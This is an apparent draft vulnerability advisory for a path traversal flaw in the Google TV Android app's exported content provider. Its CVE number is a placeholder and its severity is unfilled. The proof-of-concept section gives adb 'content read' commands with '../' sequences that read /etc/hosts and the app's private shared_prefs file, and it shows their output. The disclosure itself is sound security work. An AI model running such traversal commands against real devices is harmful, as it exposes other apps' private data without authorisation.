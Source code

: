 ```yaml
---
layout: page
title: CVE-2024-yaytempyay Details
permalink: /cves/cve-2025-yaytempyay
---
```


|    **Product**    | Google TV version 4.39.2590.678247678.4-release |
|    **Severity**   |                   ???                   |
| **CVE Reference** |              CVE-2025-yaytempyay              |
|      **Type**     |             Path Traversal            |

## Description

The Google TV Android application (`com.google.android.videos`) had an exported Content Provider which contains a path traversal vulnerability. Specifically, the vulnerable Content Provider is `com.google.android.apps.googletv.app.image.PosterSharingContentProvider`.

This issue was exploitable under the following conditions:

* The underlying Google Account was a part of a Google Family
* The Google Family had previously purchased products in the Family Library
* The application has previously been opened and viewed the Highlights section

## Impact

This can allow the calling application to view files on the file system within the context of the Google TV Android application.

## Proof of Concept (PoC)

The following code snippet shows that the `adb shell` user on a Samsung Galaxy S24 could abuse the vulnerable Content Provider to read the `/etc/hosts` file:

```
e1s:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),1078(ext_data_rw),1079(ext_obb_rw),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid),3012(readtracefs) context=u:r:shell:s0

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../../../../../etc/hosts 
127.0.0.1       localhost
::1             ip6-localhost
```

Additionally, this issue could have been used to read files that were in Google TV's private files directory:

```
e1s:/ $ cat /data/data/com.google.android.videos/shared_prefs/registration_data.xml
cat: /data/data/com.google.android.videos/shared_prefs/registration_data.xml: Permission denied

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../shared_prefs/registration_data.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="last_successful_registration_environment_url">notifications-pa.googleapis.com</string>
    <boolean name="is_registered_to_unified_fcm_registration" value="false" />
    <int name="last_successful_registration_request_hash_code" value="364779808" />
    <long name="last_successful_registration_time_ms" value="1728826771075" />
    <string name="fetch_only_id">c21e1400-64e6-4663-a32c-5682569d2bc1</string>
    <string name="internal_target_id">Ch1nY21fZm86djE6Njc3MDQ3MDA2Mzg2MzMxNTk2Nw</string>
    <int name="last_successful_registration_account_type" value="1" />
</map>
```

## Technical Details

The vulnerable Content Provider is meant to host files that are hosted in `/data/user/0/com.google.android.videos/files/offline_images/`. However, this directory is not created by default.

One method to create this directory is to go to the Highlights section of the application, assuming that the underlying Google account met the following conditions:

* The Google Account was a part of a Google Family
* The Google Family had previously purchased TV shows or movies

Once those conditions are met, any application could have exploited this issue by added `../` characters to the Content Provider URI.